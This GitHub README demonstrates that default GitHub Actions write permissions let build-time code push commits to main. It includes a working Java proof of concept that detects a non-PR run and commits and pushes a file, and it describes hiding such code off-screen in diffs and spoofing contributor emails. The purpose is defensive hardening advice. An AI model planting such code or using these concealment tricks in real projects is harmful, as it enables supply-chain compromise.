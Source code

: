 # Musical-Okto-Carnival

GitHub Actions by default allow any code executed as part of the action, except
when running as part of a PR from a forked repository, to commit changes to the
main branch. This is exceedingly dangerous and could allow the introduction of
malicious code into the source code repositories of widely used software.

GitHub provides repository owners a lot of control over what GitHub Actions
have access to; this has only been strengthend in recent months due to
[BitCoin mining attacks](https://www.coindesk.com/hackers-mined-crypto-on-githubs-servers-report).
However, one still must excersize a little caution and harden any repository
that uses GitHub Actions.

TL;DR - just install [AllStar](https://github.com/ossf/allstar/blob/main/quick-start.md)
and follow the guidance.

## Attacking Repositories on GitHub

Imagine a scenario where a maintainer of a widely used OSS package goes rogue
and decides they want to start spreading malicious code. For instance, if the
primary maintainer of [OWASP dependency-check](https://github.com/jeremylong/DependencyCheck)
decided to abuse the trust so many users have given the tool over the years.
What if the following code were introduced and called as part of the execution
of dependency-check:

```java
    private void provideWarning() {
        String ref = getEnv("GITHUB_REF", "");
        boolean isAction = Boolean.parseBoolean(getEnv("GITHUB_ACTIONS", "false"));
        boolean notPR = getEnv("GITHUB_HEAD_REF", "").isEmpty();
        boolean isMain = "refs/heads/main".equals(ref);
        boolean isMaster = "refs/heads/master".equals(ref);
        java.io.File f = new java.io.File("warning.md");

        if (isAction && notPR && (isMain || isMaster) && !f.exists()) {
            try (java.io.FileWriter writer = new java.io.FileWriter(f);
                    java.io.BufferedWriter out = new java.io.BufferedWriter(writer)) {
                out.write("Warning\n");
                out.write("=======\n\n");
                out.write("Branch protection is not enabled and GitHub Actions has the\n");
                out.write("ability to write to the repository. Any action or code executed\n");
                out.write("during the build, even code in third party dependencies called\n");
                out.write("during testing, could subvert the integrity of your project.\n\n");
                out.write("See [Disabling or limiting GitHub Actions for a repository]");
                out.write("(https://docs.github.com/en/github/administering-a-repository/managing-repository-settings/disabling-or-limiting-github-actions-for-a-repository) ");
                out.write("for more information on how to protect you repository.");
                out.flush();
                out.close();
            } catch (java.io.IOException ex) {
                //ignore
            }
            exec("git config user.email \"actions@github.com\"");
            exec("git config user.name \"GitHub Actions\"");
            exec("git add warning.md");
            exec("git commit -m \"warning\" warning.md");
            if (isMain) {
                exec("git push origin main");
            } else {
                exec("git push origin master");
            }
        }
    }
    // The rest of the code is trivial helper functions used to make the example above more concise.
    private String getEnv(String name, String def) {
        String ret = System.getenv(name);
        if (ret == null) {
            ret = def;
        }
        return ret;
    }

    private void exec(String cmd) {
        try {
            Runtime run = Runtime.getRuntime();
            Process pr = run.exec(cmd);
            Thread in = new ProcessReader(pr.getInputStream());
            Thread err = new ProcessReader(pr.getErrorStream());
            in.start();
            err.start();
            if (pr.isAlive()) {
                pr.waitFor();
            }
            in.join();
            err.join();
        } catch (java.io.IOException | InterruptedException ex) {
            //ignore
        }
    }

    static class ProcessReader extends Thread {
        java.io.InputStream inputStream;
        byte[] buffer = new byte[1024];

        ProcessReader(java.io.InputStream inputStream) {
            this.inputStream = inputStream;
        }

        @Override
        public void run() {
            try {
                int read;
                do {
                    read = inputStream.read(buffer);
                } while (read != -1);
            } catch (java.io.IOException ex) {
                //ignore
            }
        }
    }
```

The above code example is lengthy for completness - but at its core it simply:

1. Validates that it is running as a GitHub Action running on the `main` or
   `master` branch.
2. If it is in the correct execution context it then writes a `warning.md`
   file into the root of the repository.
3. The `warning.md` is then added to git, committed to git, and then pushed
   to the `main` or `master` branch.

While the example is mostly harmless, it demonstrates how dangerous the default
permissions can be. One could add or modify code within the repository and the
commits could impersonate one of the contributers (all you need is their email
address) instead of the above code just using `actions@github.com`. Detecting
the introduction of the injected code could be difficult. A real attacker could
even check if the code was executing right after a merge event so maintainers
would have to do a pull anyway before being able to update.

The example code above could be introduced into any dependency, GitHub Action
from the marketplace, or really any code that is executed withinva GitHub
Action. Imagine the number of repositories that could be compromised if code
like the example above were introduced into JUnit or other testing framework.

## In Action

### Act 1

To see the payload in action, the code was added in
[PR #1](https://github.com/jeremylong/musical-octo-carnival/pull/1).

When run as part of the build of main the repository now has a `warning.md`.

As the PR indicates, the "attack" was done in plain site. There are numerous
ways to mask the attack. The easiest would be to include a subverted dependency;
one could even create a look-a-like/typo-squated dependency to make it easier
to introduce the code.

### Act 2

With [PR #2](https://github.com/jeremylong/musical-octo-carnival/pull/2) the
"malicious" code was cleaned up and the `warning.md` removed. Who needs that
cumbersome branch protection.

### Act 3

In Act 3 / [PR #3](https://github.com/jeremylong/musical-octo-carnival/pull/3)
the "malicious" code was re-introduced. This time hidden and completely
missed during the peer review due to the Unified view not have any indication
that there is code way off on the right starting at character 160. See the PR
for the example. This is just another way malicious code can be introduced.

It is recommended to use the "Split" view when reviewing a PR. Alternatively,
use a tool like Checkstyle with a line length check enabled and anotate your
PRs with the [Violations-to-GitHub-Comment](https://github.com/tomasbjerre/violation-comments-to-github-command-line)
utility. The OWASP dependency-check project uses the violations maven plugin;
[example here](https://github.com/jeremylong/DependencyCheck/blob/fc010a869aee54d7fd0357a95f9c5b2da2597363/.github/workflows/pull_requests.yml#L31).

### Act 4

With Act 4 / [PR #4](https://github.com/jeremylong/musical-octo-carnival/pull/3)
we implement AllStar. Hopefully, the maintainer will actually resolve the
[issues](https://github.com/jeremylong/musical-octo-carnival/issues).

## Solutions

GitHub already has (almost) everything in place a user needs to secure their
repositories. Repository owners can enable branch protection or change the
default permissions on Actions to be read-only via the workflow yaml or using
a personal access token.

The recent introduction of [AllStar](https://github.com/ossf/allstar/blob/main/quick-start.md)
is awesome! AllStar will examine an organization or repository and alert
if any issues are discovered. However, tools like AllStar require users to
opt-in. As anyone in security knows when you start asking people to opt-in
you are doomed to fail. With AllStar we aren't just asking them to opt-in
to security, but we are asking them to opt-in just for a security notification.
At least AllStar is persistent and will continue to ping until the [issue(s)
are resolved](https://github.com/jeremylong/musical-octo-carnival/issues/6#issuecomment-903055210).

The best solution would be to make Actions secure by default. This could be
done by changing the default permission level for GitHub Actions read-only.
Making this change would obviously be difficult as it would end up breaking
a lot of builds. However, the default GitHub Action permissions on all new
repositories created should be made read-only. In order to do this GitHub
would need to introduce a way to control the default permissions beyond
just those for Pull Requests from forked repositories; currently the only
way to make an Action read-only is to provide a limited access token or
to use the `permissions` tag in the yaml. In most cases, Actioms do not
need the ability to write to a repository and for those that do one can
simply add the write permission in the yaml defining the Action.

Another solution available to GitHub would be to move the functionality of
AllStar from an Action in the Marketplace to an integral part of GitHub
just like was done with dependabot. As such, all repository owners could
be alerted, just like dependabot, if their repository is setup insecurely.
The warnings could be displayed only to the repository owners and provide
two buttons to assist with resolution:

1. Enable Branch Protection
2. Change Default Permissions to read-only

## End Scene

In summary, for now use [AllStar](https://github.com/ossf/allstar/blob/main/quick-start.md)
and secure your GitHub repos. When performing Peer Review - consider using
the `Split` view or using some other tool to detect long lines.
